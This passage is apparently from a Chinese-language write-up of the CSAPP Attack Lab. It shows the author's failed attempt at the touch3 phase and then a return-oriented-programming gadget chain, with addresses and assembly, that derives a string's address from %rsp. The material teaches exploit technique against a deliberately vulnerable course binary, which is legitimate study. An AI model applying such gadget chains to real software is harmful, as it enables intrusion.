 ```
fa 18 40 00 00 00 00 00
```
我天真的以为这么做是可以的，但是实际上你以为你传入的是字符串，实际上它会把你传入的值当作地址，然后你这个地址访问的时候就会出现segmentation fault

好的，看完我踩的坑，该看看正确的做法了
我们既然要传入地址，而又困于栈的保护机制，所以，我们只剩下唯一的线索就是顺着rsp寄存器来找字符串的地址,为什么这么想，因为rsp保存的就是栈顶地址，我们就顺着来就行，找到合适的偏移量来存放字符串的地址，然后再执行touch3就行了

所以第一步就是先把rsp 拿出来给一个寄存器存起来
```
mov %rsp  xxx
```

看看有没有对应的指令48 89 xx 
```
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```
真有，对应汇编为movq %rsp, %rax
中间由于gadget 限制，我们不得不多多中转几次，

```
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```
